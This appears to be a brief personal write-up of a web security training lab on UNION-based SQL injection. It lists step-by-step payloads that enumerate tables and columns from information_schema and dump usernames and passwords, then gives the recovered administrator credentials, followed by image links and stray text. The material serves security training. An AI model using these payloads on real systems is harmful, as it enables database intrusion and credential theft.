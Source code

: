 # 05 Lab: SQL injection attack, listing the database contents on non-Oracle databases

```jsx
'+UNION+SELECT+'AAA','BBB'--
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_horosf'--
'+UNION+SELECT+username_iuhldq,+password_eazcur+FROM+users_horosf--

administrator
xphxerrutto3jpg7eaw2
```

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec80c5b82fea38a0c15092/Untitled.png)

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec80c5b82fea38a0c15092/Untitled%201.png)

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec80c5b82fea38a0c15092/Untitled%202.png)

![Untitled](05%20Lab%20SQL%20injection%20attack,%20listing%20the%20database%20%2012cfab5460ec80c5b82fea38a0c15092/Untitled%203.png)

rwrwerw
